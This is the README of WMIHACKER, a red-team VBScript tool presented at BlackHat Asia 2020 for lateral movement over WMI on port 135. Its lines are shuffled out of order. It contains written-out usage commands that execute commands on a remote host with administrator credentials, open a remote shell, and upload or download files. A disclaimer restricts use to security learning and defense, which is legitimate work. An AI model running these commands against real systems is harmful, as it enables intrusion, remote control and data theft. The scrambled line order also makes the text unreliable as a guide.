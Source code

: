
                              v0.6beta       By. Xiangshan@360RedTeam
          /cmd          single command mode
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
          host          hostname or IP address
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?
        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath
        WMIHACKER.vbs  /shell  host  user  pass
        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
## 404Starlink
## BlackHat Asia 2020 Arsenal
## How to use
## Star History
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">
> Disclaimer: The technology involved in this project is only for security learning and  defense purposes, illegal use is prohibited!
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs
File download: Download the remote host calc.exe to the local c:\calc.exe
File upload: copy the local calc.exe to the remote host c:\calc.exe
Main functions: 1. Command execution; 2. File upload; 3. File download
No results are displayed after the command is executed
The result is displayed after the command is executed
Usage:
WMIHACKER has joined [404Starlink](https://github.com/knownsec/404StarLink)
[![Star History Chart](https://api.star-history.com/svg?repos=rootclay/WMIHACKER&type=Date)](https://star-history.com/#rootclay/WMIHACKER&Date)
[https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995](https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995)
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
__          ____  __ _____   _    _          _____ _  ________ _____
`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`
`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`
`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `
`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `
`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`
```
shell mode
